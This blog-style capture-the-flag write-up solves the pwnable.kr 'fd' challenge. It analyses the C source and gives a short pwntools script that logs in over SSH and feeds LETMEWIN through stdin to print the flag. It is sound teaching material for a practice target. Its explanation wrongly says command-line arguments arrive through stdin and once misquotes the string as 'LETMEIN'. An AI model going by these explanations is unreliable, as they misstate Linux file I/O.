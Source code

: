 ```yaml
---
layout: post
title: pwnable.kr - fd
categories: pwn
tags: [Linux, Binary Exploitation, Exploit Development, c, Python]
image: pwn/fd/0.png
---
```


<hr>
### Introduction
#### Hey guys , Lately I have been doing pwn challenges and I decided to share some stuff with you from time to time like I do with the other write-ups. Today we will solve fd from pwnable.kr , it's a very easy one but as always we will go in detail.
<br>
>  pwn means to compromise or control, specifically another computer (server or PC), website, gateway device, or application. It is synonymous with one of the definitions of hacking or cracking.
-[Wikipedia](https://en.wikipedia.org/wiki/Pwn) 

<br>
![](/images/pwn/fd/0.png)
<hr>
### Challenge Description
```
Mommy! what is a file descriptor in Linux?
ssh fd@pwnable.kr -p2222 (pw:guest)
```
#### We have ssh login info, and some sort of a hint , before doing anything let's talk about file descriptors , because that's what the hint said.
<br>
<hr>
### File descriptors
#### File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in `c` as integers and there are 3 types of file descriptors :
#### `standard input` (`stdin`) , its integer value is `0`
#### `standard output` (`stdout`) , its integer value is `1`
#### `standard error` (`stderr`) , its integer value is `2`
#### To summarize this up , when you run a program and give it arguments through `sys.argv` for example , that's `stdin` , whatever the program gives you back as an output , that's `stdout` . If the program gave you an error , because you missed a required argument or gave it a wrong argument for example , that's `stderr`.
<br>
<hr>
### Source analysis
#### After we `ssh` to the server (`ssh fd@pwnable.kr -p2222` , password : `guest`) we find 3 files 
![](/images/pwn/fd/1.png)
#### `fd` , `fd.c` and `flag`.
#### `fd` is an executable , and `fd.c` is the source of that executable
![](/images/pwn/fd/2.png)
#### And we don't have permissions to view `flag` :
![](/images/pwn/fd/3.png)
#### Let's take a look at the source : 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```
### Breakdown :
```
char buf[32];
```
#### This assigns a buffer of 32 chars to the variable `buf`
<br>
```
if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }

```
#### Here it starts by checking if we passed and argument or not , and if we didn't , it will print `pass argv[1] a number`
![](/images/pwn/fd/4.png)
<br>
<br>
```
int fd = atoi( argv[1] ) - 0x1234;
```
#### Then it defines a variable called `fd` , the value of that variable is `atoi( argv[1] ) - 0x1234`. `atoi()` is a function in `c` that converts a string into an integer , it stands for `Ascii to Integer` , `0x1234` is the hex of `4660` 
![](/images/pwn/fd/5.png)
#### So it subtracts 4660 from our input.
<br>
```
int len = 0;
```
#### This defines a variable called `len` and assigns a value of `0` to it
<br>
```
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```
#### Here it's taking `fd` and also reading our input and puts it into `buf` , then there's an if statement which checks if the value of buf is `LETMEIN` , if it's then it will print `good job` and give us the flag , but if it's not it will print `learn about Linux file IO`. 
<br>
<hr>
### Exploitation
#### Now we have an idea about the logic of the program , and a pwn challenge is all about breaking that logic.
#### Let's run the program just to test :
`./fd 1337`
![](/images/pwn/fd/6.png)
#### It prints `learn about Linux file IO` , because we didn't get `fd` right. We know that `fd` is an abbreviation for file descriptor , and there are 3 file descriptors `stdin` `stdout` `stderr` , And we can also control the value of `fd` because we know that it's subtracting 4660 from `argv[1]` and we control `argv[1]` , how are we giving the program `argv[1]` ? Through `stdin` which is represented by `0` , so if we gave the program `4660` , `fd = 4660 - 4660` , `fd = 0`. Let's try it.
![](/images/pwn/fd/7.png)
#### Now it didn't print `learn about Linux file IO` , instead of that it's reading our input --> `len = read(fd, buf, 32);`
#### We knew earlier that we have to make buf = "LETMEWIN" to execute the first `if` condition :
![](/images/pwn/fd/8.png)
#### And we got the flag : "mommy! I think I know what a file descriptor is!!"
<br>
<hr>
### Exploitation with python pwntools
#### We will use a python library called pwntools to create an exploit. Read the documentation [here](http://docs.pwntools.com/en/stable/about.html)
#### We will import the pwntools library :
`from pwn import *`
#### Then we will set up an `ssh` connection to the server :
`shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)`
#### `fd` is the username , `pwnable.kr` is the host
#### After that we will start a process to execute `./fd 4660`
`process = shell.process(executable='./fd', argv=['fd','4660'])`
#### And finally we will send `LETMEWIN` and read the output
`process.sendline('LETMEWIN')`
<br>
<br>
`print process.recv()`
<br>
### Final script :
```
#!/usr/bin/python

from pwn import *

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)
process = shell.process(executable='./fd', argv=['fd','4660'])
process.sendline('LETMEWIN')
print process.recv()
```
![](/images/pwn/fd/9.png)
#### Let's try it :
`./exploit.py`
![](/images/pwn/fd/10.png)
#### And it's working !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Next pwn write-up : [pwnable.kr - bof](/pwn/bof/)
<br>
<hr>

